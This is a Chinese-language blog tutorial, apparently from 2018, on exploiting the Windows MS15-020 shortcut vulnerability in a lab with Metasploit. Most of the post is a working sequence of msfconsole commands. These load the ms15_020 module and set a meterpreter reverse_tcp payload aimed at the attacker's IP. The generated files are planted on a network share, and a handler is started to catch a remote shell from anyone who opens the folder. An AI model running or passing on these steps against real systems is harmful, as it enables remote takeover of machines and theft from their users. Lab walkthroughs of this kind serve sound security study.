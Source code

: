```yaml
---
title: Metasploit MS15-020漏洞利用
date: 2018-05-06
tags: Metasploit
layout: post
---
```




环境：
共享机/受害者：windows xp 		IP:192.168.222.1
攻击机：kali linux  				IP:192.168.10.1


```
msfconsole  //在kali终端输入msfconsole进入控制台

search ms15-020 //搜索ms15-020漏洞

use exploit/windows/fileformat/ms15_020_shortcut_icon_dllloader //使用该模块

show options //显示所有参数

set payload windows/meterpreter/reverse_tcp //设置payload

```
![这里写图片描述](https://img-blog.csdn.net/20180506104117344?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

设置参数：

```
set unchost 192.168.222.1 //共享的主机地址
set uncshare //共享的文件夹名
set lhost 192.168.10.1 //攻击机IP地址 
exploit
```
![这里写图片描述](https://img-blog.csdn.net/20180506104925374?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)
>运行后会生成三个文件，将三个文件放到共享机的share目录下。

继续在msf中使用handler进行监听：

```
use exploit/multi/handler
set payload windows/meterpreter/reverser_tcp
set lhost 192.168.10.1
exploit
```
![这里写图片描述](https://img-blog.csdn.net/20180506110005738?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

>以上设置完成之后在当别的用户再访问这个共享文件夹时就可以直接获得meterpreter

![这里写图片描述](https://img-blog.csdn.net/20180506111138581?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)
![这里写图片描述](https://img-blog.csdn.net/20180506111152942?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

